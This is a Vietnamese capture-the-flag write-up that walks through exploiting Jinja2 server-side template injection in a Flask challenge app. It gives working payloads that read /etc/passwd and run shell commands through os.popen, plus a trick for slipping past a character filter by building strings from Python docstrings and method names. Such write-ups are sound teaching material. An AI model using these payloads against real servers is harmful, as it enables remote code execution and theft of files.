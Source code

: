 
# Write-up EHC Hair Salon

* [Source code](https://github.com/5c4ll10n/FPTU-Hacking-CTF-2022/blob/main/Data/app.py)

Challenge này cho ta một trang web với giao diện như hình, có 1 box để input text và 1 nút submit

![image](https://user-images.githubusercontent.com/82231862/176257788-ee5d0482-a574-4cf0-9a51-598ba054eaa9.png)

Xem source code, ta thấy tác giả đã import module flask và sử dụng jinja2 để render ra page


![image](https://user-images.githubusercontent.com/82231862/176261133-3e96b201-903e-48e1-b799-4d563236713e.png)

![image](https://user-images.githubusercontent.com/82231862/176261062-61d6cf64-73d6-4908-a28a-f580cb08dc25.png)

Với web không filter user input, ta có thể dễ dàng inject code vào. Ví dụ:

* `{{2*3}}` sẽ được render ra là 6

Chúng ta còn có thể inject các đoạn code như [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) hoặc [remote code execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution). Ví dụ:

* `{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}` trả về nội dung file password
* `{{ cycler.__init__.__globals__.os.popen('id').read() }}` chạy lệnh `id` trong shell

Nhưng trong challenge này, input đã tác giả đã filter đi khá nhiều

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#" 
# filter đi string, số, flag, các char và 1 số lệnh cơ bản. Quan trong nhất là string và số để ta có thể tạo payload
...
       hair_type = request.form['hair'].lower()
       if '{' in hair_type and re.search(regex,hair_type):
            return render_template_string(error_page)
            
       if len(hair_type) > 256:
            return render_template_string(error_page)      
# giới hạn số kí tự tối đa có thể nhập vào
...
```

Không thể tạo payload trực tiếp, ta sẽ đi đường vòng bằng cách sử dụng các attribute và method có sẵn của python. Ví dụ:

* `().__doc__` sẽ trả về doc của tuple: `Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object.`
* `().__doc__[7]` sẽ trả về kí tự thứ 5 của string trên: `n`
* `().__str__.__name__` sẽ trả về `__str__`

Vì tác giả đã filter số nên ta sử dụng hàm `[...].__len__()` để trả về số phần tử của 1 mảng. Ví dụ:

* `[].__len__()` sẽ trả về số phần tử của mảng rỗng là: `0`
* `[[],[],[],[]].__len__()` sẽ trả về: `4`

Kết hợp 2 cái ta sẽ có được:

* `().__doc__[[[],[],[]].__len__()]` để trả về kí tự `l`
* `().__str__.__name__[[[],[]].__len__()]` để trả về kí tự `s`

Chúng ta thử inject payload bằng cách gọi [os.popen().read()](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread) để chạy lệnh `ls` trong shell

* `{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}`  dùng dấu `+` để ghép chuỗi

Ta tìm được file tên là **flag** trong thư mục

![image](https://user-images.githubusercontent.com/82231862/176274512-1734c739-247a-47f2-bb79-28e18e829180.png)

Tiếp theo để mở file đó, ta sẽ dùng [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) để đọc file **flag**. Ta được payload như sau:

* `{{get_flashed_messages.__globals__.__builtins__.open(().__format__.__name__[[[],[]].__len__()]+().__le__.__name__[[[],[]].__len__()]+().__add__.__name__[[[],[]].__len__()]+().__ge__.__name__[[[],[]].__len__()]).read()}}`

Kết quả: 

![image](https://user-images.githubusercontent.com/82231862/176280207-17d6dfb8-d240-4d4f-9b21-48899a300f4b.png)

### FLAG: FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}
